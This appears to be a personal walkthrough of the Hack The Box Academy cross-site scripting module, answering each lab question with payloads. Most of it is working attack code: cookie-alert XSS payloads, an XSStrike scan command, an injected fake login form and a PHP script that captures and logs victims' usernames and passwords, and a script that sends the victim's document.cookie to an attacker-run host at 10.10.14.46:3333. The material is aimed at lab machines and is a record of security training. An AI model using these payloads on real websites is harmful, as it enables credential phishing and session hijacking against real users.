 # [HTB_Academy] Cross-Site Scripting (XSS)

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter? **
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
>**Q. What type of XSS was found on the above server? "name only"**
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```

```bash
http://10.129.252.57/phishing/index.php?url=document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**
Look for the payload

```javascript
"><script src=http://10.10.14.46:3333></script>
```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Look for the position
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```

```javascript
new Image().src='http://10.10.14.46:3333/index.php?c='+document.cookie
```

Click on "+" to add the cookie

## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**

